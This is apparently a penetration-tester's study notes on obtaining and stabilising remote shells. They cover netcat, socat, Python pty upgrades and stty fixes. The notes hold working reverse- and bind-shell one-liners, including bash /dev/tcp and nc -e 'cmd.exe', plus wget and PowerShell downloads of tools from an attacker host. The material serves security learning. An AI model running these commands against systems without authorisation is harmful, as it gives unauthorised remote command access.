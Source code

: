 # Shells
Shells are the `programs running inside the console that interpret your commands` ran on your CLI (Command-line interface). In other words, the common `bash` or `sh` programs in Linux are examples of shells, as are `cmd.exe` and `Powershell` on Windows.

When targeting remote systems it is sometimes possible to force an application running on the server (such as a webserver, for example) to execute arbitrary code. When this happens, we want to use this initial access to obtain a shell running on the target.

Most used shells: `bash`, `sh`, `cmd.exe`, `powershell.exe` & `/bin/zsh`

## Tools
1. Netcat: A networking tool commonly used for setting up listeners and reverse shells.

    Example: `nc -lvnp <PORT>` where l=listen, v=verbose, n=no reverse-DNS & p=port specification.

2. Socat: An advanced alternative to Netcat, supports encrypted connections and more protocols. Encrypted Socat shells are also possible using `OPENSSL`.

    `socat TCP-L:<PORT> -` + `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` or `EXEC:powershell.exe,pipes`

3. Metasploit multi/handler
4. Msfvenom

Another useful set of tools:
1. `rlwrap`, a tool to wrap readline functionality for command-line utilities that lack it (e.g., netcat).
2. Python: Converting a simple shell into a fully interactive shell. `python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Types:
1. Reverse shell: We force a remote server to give us CLI access.

    Example : `rlwrap nc -lvnp 4444` (listener), `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1` 

2. Bind shell: We open a port on a remote server which we can connect to in order to execute commands.

    Example: `nc -lvnp <port> -e "cmd.exe"` (target machine), `nc MACHINE_IP <port>` (attacking machine).

### Interactive vs. Non-interactive shells
1. Interactive: These allow you to interact with programs after executing them.

    Example: `Powershell, Bash, Zsh, sh` or any other standard CLI environment

2. Non-Interactive: You are limited to using programs which `do not require user interaction` in order to run properly.

    Example: Can't run `ssh` but can run `whoami`, `pwd`, etc.

Where to find shells:
1. [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
2. [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
3. [Revshells](https://www.revshells.com/)

## Other common shell commands
| Command | Purpose |
|-|-|
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade to a fully interactive shell. |
| `export TERM=xterm` | Fix terminal display issues in a simple shell. |
| `CTRL + Z` | Background the current shell process. |
| `stty raw -echo` and `fg` | Fix line formatting issues when bringing a shell to the foreground. |
| `rlwrap nc -lvnp <PORT>` | Use `rlwrap` for history and arrow key navigation in Netcat shells. |
| `socat tcp-listen:<PORT>,reuseaddr,fork exec:/bin/bash` | Start an advanced reverse shell listener. |
| `php -r '...'` | Execute a PHP reverse shell payload. |

## Shell stabilisation
Shells are very unstable by default. Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors.

Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder.

### Technique 1: Python
Mostly used on Linux systems.

1. Spawn a python shell using `python -c 'import pty;pty.spawn("/bin/bash")'`.
2. Get access to term commands such as `clear` using `export TERM=xterm`.
3. Background the shell using `Ctrl + Z`. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). `To fix this, type reset and press enter`.

### Technique 2: rlwrap
Similar to `stty`, rlwrap gives us access to history, tab autocompletion and arrow keys.  however, some manual stabilisation must still be utilised if you want to be able to use `Ctrl + C` inside the shell.

1. Invoke a slightly different listener: `rlwrap nc -lvnp <port>`.
2. Background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

### Technique 3: Socat
Typically to Linux systems.

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell.

1.  Transfer a [Socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

    A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file.
    
    Or using Powershell: `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

    On Linux this would be accomplished with `curl` or `wget` (`wget <LOCAL-IP>/socat -O /tmp/socat`).

### Change your terminal tty size
With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

Example: `stty rows <number>` & `stty cols <number>`